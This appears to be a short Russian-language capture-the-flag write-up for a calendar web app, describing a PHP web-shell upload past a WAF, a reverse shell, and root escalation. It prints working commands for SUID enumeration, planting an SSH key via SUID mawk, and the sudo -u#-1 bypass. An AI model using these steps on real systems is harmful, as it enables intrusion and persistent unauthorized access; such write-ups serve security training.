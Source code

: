 # Описание 
Наконец-то написал свой календарик под ключ!

# Решение 
Регаем пользователя

<img width="1003" alt="image" src="https://github.com/user-attachments/assets/8343b188-f131-49b7-be81-9e7271b7a1a7" />


Подгружаем при помощи ссылки php-шелл на место аватарки, байпаснув несложный WAF 


После получения RCE, пробрасываем reverse-shell

Далее проводим перечисление ресурсов системы:

```
find / -perm /4000 2>/dev/null
```

Через suid awk записываем ssh ключ в директорию пользователя 

```
mawk 'BEGIN { print "ssh-rsa <key>" > "/home/sakura/.ssh/authorized_keys" }'
```

Повышение до рута через уязвимую версию sudo:
```
sudo -u#-1 /bin/bash
```
